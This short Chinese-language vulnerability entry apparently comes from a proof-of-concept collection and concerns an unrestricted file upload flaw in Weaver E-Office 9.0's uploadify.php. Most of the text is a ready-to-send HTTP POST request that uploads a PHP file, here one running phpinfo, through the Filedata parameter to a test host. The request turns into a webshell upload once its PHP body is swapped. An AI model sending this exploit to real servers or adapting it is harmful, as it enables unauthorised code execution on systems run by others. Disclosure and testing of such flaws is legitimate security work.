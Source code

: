 ### **描述和影响范围**

Weaver E-Office9版本存在代码问题漏洞，该漏洞源于文件/inc/jquery/uploadify/uploadify.php存在问题，对参数Filedata的操作会导致不受限制的上传。

Weaver E-Office9.0

### **POC or EXP**

```
POST /inc/jquery/uploadify/uploadify.php HTTP/1.1
Host: 192.168.232.137:8082
User-Agent: test
Connection: close
Content-Length: 493
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85

--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85
Content-Disposition: form-data; name="Filedata"; filename="666.php"
Content-Type: application/octet-stream

<?php phpinfo();?>

--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85--
--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream

--25d6580ccbac7409f39b085b3194765e6e5adaa999d5cc85028bd0ae4b85--
```

